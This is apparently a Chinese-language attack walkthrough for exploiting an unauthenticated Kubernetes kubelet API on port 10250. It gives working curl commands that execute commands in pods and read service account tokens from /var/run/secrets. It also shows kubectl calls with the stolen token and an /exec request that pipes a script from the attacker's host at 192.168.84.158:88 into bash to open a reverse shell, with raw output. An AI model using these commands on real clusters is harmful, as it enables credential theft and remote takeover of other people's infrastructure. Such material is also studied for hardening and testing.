









[toc]

## 攻击k8s的10250端口

### 原理

10250端口是 kubelet API 的 HTTPS 端口。默认情况下，kubelet 监听的 10250 端口没有进行任何认证鉴权，导致通过这个端口可以对 kubelet 节点上运行的 pod 进行任何操作。

kubelet: 运行在每一个 Node 节点上的客户端，负责 Pod 对应的容器创建，启动和停止等任务，同时和Master节点进行通信，实现集群管理的基本功能。

### 利用过程

#### 获得 token

首先需要确定 node 是否存在未授权问题。访问`https://ip:10250/pods`，出现如下数据表示可以利用：



执行`curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"`即可在对应的容器里执行命令：



现在问题变成了如何确定 namespace、pod_name、container_name。访问`https://ip:10250/pods`并查找 selfLink，会有一个类似【/api/v1/namespaces/test1/pods/web-docker-594dd9789f-fc9d9】的值，其中 namespaces 就是后面的 test1，同理 pods 就是后面的 web-docker-594dd9789f-fc9d9。如果执行失败，可以看看 phase 的状态是不是 fail，是的话就换一个 phase 是 running 的再试试。



token 默认会保存在通过命令 pod 里的 /var/run/secrets/kubernetes.io/serviceaccount/token。通过`curl -k -XPOST "https://ip:10250/run/cattle-system/cattle-cluster-agent-549fc45d6f-lf7hp/cluster-register" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"`获得 token


如果不在这个位置，可用 mount 命令来查找：



#### 获得 master 访问权

接下来可以尝试获得master（api server）的访问权限。

默认情况下，api server开发的端口为6443，所以扫描同个网段开放6443的主机来挨个尝试。除了这种方法，还可以尝试执行env命令来查看是否有api server的地址或者其他敏感信息：



执行命令`kubectl --insecure-skip-tls-verify=true  --server="https://ip:6443"  --token="eyJhbG......"  get secrets --all-namespaces -o json`，如果提示【error: You must be logged in to the server (Unauthorized)】就是token和api server不匹配。


#### 获得node里pod的shell

入侵者在本机搭建web服务，通过在node上的pod里执行反弹语句来获得node的shell。192.168.84.158:88是入侵者的web服务，写了反弹shell：



`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"`  

不行就试试下面的：  

`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/sh&command=-c&command=curl+192.168.84.158:88+|+sh&input=1&output=1&tty=1"`


```bash
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
* 	subject: CN=192.168.4.68@1544518989
* 	start date: 12月 11 09:03:09 2018 GMT
* 	expire date: 12月 11 09:03:09 2019 GMT
* 	common name: 192.168.4.68@1544518989
* 	issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt  //查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]# 
```

执行如下语句查看命令执行结果
```
[root@localhost ~]# docker run -it --rm  joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```



此时我们是在node的pod里，在反弹的shell里查看master的内部ip



尝试连接k8s master地址
```bash
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```  


参考：
https://www.lijiaocn.com/%E9%97%AE%E9%A2%98/2018/07/20/kubernetes-docker-cpu-high.html
https://segmentfault.com/a/1190000002937665
http://blog.allen-mo.com/2019/04/29/k8s-security-serviceaccount/
https://stackoverflow.com/questions/51176283/how-to-create-pod-from-rest-api
https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster/
http://carnal0wnage.attackresearch.com/2019/01/kubernetes-unauth-kublet-api-10250.html
https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/